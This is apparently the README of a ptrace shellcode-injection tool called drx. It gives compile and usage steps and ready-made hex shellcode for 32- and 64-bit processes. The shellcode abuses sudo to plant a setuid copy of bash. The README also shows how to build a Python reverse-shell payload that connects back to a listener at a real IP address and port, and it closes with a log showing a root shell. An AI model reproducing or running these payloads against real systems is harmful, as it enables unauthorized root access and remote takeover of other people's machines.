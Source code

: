 # drx_ptrace_shellcode_injector
drx ptrace shellcode injector

## How to compile

```
gcc -o drx drx.c
```

## How to use

You can inject some shellcodes:

### Default builtin hello world shellcode

./drx PID

```
./drx 4940
```

### bash suid local privilege escalation via ptrace misconfiguration

Based from: https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

Execute: /bin/sh -c "/bin/echo | /usr/bin/sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | /usr/bin/sudo -S /usr/bin/chmod +s /tmp/bash >/dev/null 2>&1`"

For a 32 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x74\x2e\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x89\xc3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\xbf\x00\x00\x00\x00\xb8\x72\x00\x00\x00\xcd\x80\xe9\xbd\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x8d\x0c\x24\x8b\x1c\x24\x31\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

For a 64 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\xc5\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

### python reverse shell detached background: local privilege escalation via ptrace misconfiguration

https://github.com/David-Reguera-Garcia-Dreg/python_reverse_shell_detached_background/

Steps for **64 bit process**:

Generate IP str, for ex 51.195.45.136
```
export IP_ADDR=51.195.45.136
xxd -p <<< `printf '%02x' ${IP_ADDR//./ }`  | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x33\\x33\\x63\\x33\\x32\\x64\\x38\\x38

Generate PORT str, WARNING! only is valid a range port from 1000 to 9999 (no 89, no 10003), for ex 6868
```
xxd -p <<< 6868 | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x36\\x38\\x36\\x38

Replace in this command the **IP_HEX** and **PORT_HEX** with the PORT STR & IP STR output:

echo -n "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\xb8\\x39\\x00\\x00\\x00\\x0f\\x05\\x48\\x83\\xf8\\x00\\x74\\x25\\x48\\x89\\xc7\\xbe\\x00\\x00\\x00\\x00\\xba\\x00\\x00\\x00\\x00\\x41\\xba\\x00\\x00\\x00\\x00\\x41\\xb8\\x00\\x00\\x00\\x00\\xb8\\x3d\\x00\\x00\\x00\\x0f\\x05\\xe9\\x5f\\x02\\x00\\x00\\x6a\\x00\\xe8\\x0d\\x02\\x00\\x00\\x65\\x78\\x65\\x63\\x28\\x22\\x22\\x22\\x0a\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2c\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2c\\x6f\\x73\\x2c\\x73\\x79\\x73\\x0a\\x0a\\x70\\x69\\x64\\x72\\x67\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x70\\x69\\x64\\x72\\x67\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x63\\x68\\x64\\x69\\x72\\x28\\x22\\x2f\\x22\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x73\\x65\\x74\\x73\\x69\\x64\\x28\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x75\\x6d\\x61\\x73\\x6b\\x28\\x30\\x29\\x0a\\x0a\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x66\\x64\\x72\\x65\\x67\\x20\\x3d\\x20\\x6f\\x70\\x65\\x6e\\x28\\x22\\x2f\\x64\\x65\\x76\\x2f\\x6e\\x75\\x6c\\x6c\\x22\\x2c\\x20\\x22\\x77\\x22\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x3d\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x73\\x6f\\x63\\x6b\\x65\\x74\\x28\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x41\\x46\\x5f\\x49\\x4e\\x45\\x54\\x2c\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x53\\x4f\\x43\\x4b\\x5f\\x53\\x54\\x52\\x45\\x41\\x4d\\x29\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x63\\x6f\\x6e\\x6e\\x65\\x63\\x74\\x28\\x28\\x73\\x74\\x72\\x28\\x30\\x78\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31\\x29\\x2c\\x39\\x39\\x39\\x39\\x29\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x31\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x32\\x29\\x0a\\x0a\\x70\\x3d\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2e\\x63\\x61\\x6c\\x6c\\x28\\x5b\\x22\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x22\\x2c\\x22\\x2d\\x69\\x22\\x5d\\x29\\x0a\\x22\\x22\\x22\\x29\\x00\\xe8\\x03\\x00\\x00\\x00\\x2d\\x63\\x00\\xe8\\x0c\\x00\\x00\\x00\\x2f\\x62\\x69\\x6e\\x2f\\x70\\x79\\x74\\x68\\x6f\\x6e\\x00\\x48\\x8d\\x05\\x21\\x00\\x00\\x00\\x50\\x48\\x31\\xd2\\x48\\x89\\xe6\\x48\\x8d\\x3d\\x13\\x00\\x00\\x00\\xb8\\x3b\\x00\\x00\\x00\\x0f\\x05\\xb8\\x3c\\x00\\x00\\x00\\xbb\\x00\\x00\\x00\\x00\\x0f\\x05\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x75\\x64\\x6f\\x00\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90" | sed 's/\\x39\\x39\\x39\\x39/**PORT_HEX**/g' | sed 's/\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31/**IP_HEX**/g'

The output in  the last command is the generated shellcode

Now execute drx with target PID and the shellcode generated, ex with 6978 PID:

```
./drx 6978 "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\x5f\x02\x00\x00\x6a\x00\xe8\x0d\x02\x00\x00\x65\x78\x65\x63\x28\x22\x22\x22\x0a\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x2c\x73\x79\x73\x0a\x0a\x70\x69\x64\x72\x67\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x70\x69\x64\x72\x67\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x6f\x73\x2e\x63\x68\x64\x69\x72\x28\x22\x2f\x22\x29\x0a\x0a\x6f\x73\x2e\x73\x65\x74\x73\x69\x64\x28\x29\x0a\x0a\x6f\x73\x2e\x75\x6d\x61\x73\x6b\x28\x30\x29\x0a\x0a\x64\x72\x67\x70\x69\x64\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x64\x72\x67\x70\x69\x64\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x66\x64\x72\x65\x67\x20\x3d\x20\x6f\x70\x65\x6e\x28\x22\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x22\x2c\x20\x22\x77\x22\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x64\x72\x65\x67\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x0a\x0a\x73\x64\x72\x65\x67\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x73\x74\x72\x28\x30\x78\x33\x33\x63\x33\x32\x64\x38\x38\x29\x2c\x36\x38\x36\x38\x29\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x0a\x0a\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x2c\x22\x2d\x69\x22\x5d\x29\x0a\x22\x22\x22\x29\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x0c\x00\x00\x00\x2f\x62\x69\x6e\x2f\x70\x79\x74\x68\x6f\x6e\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

And done, you get a root shell from a sudo shell user

```
dreg@51.195.45.136:~# nc -lvp 6868
listening on [any] 6868 ...
connect to [51.195.45.136] from fr33project.org [51.195.45.136] 38672
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```



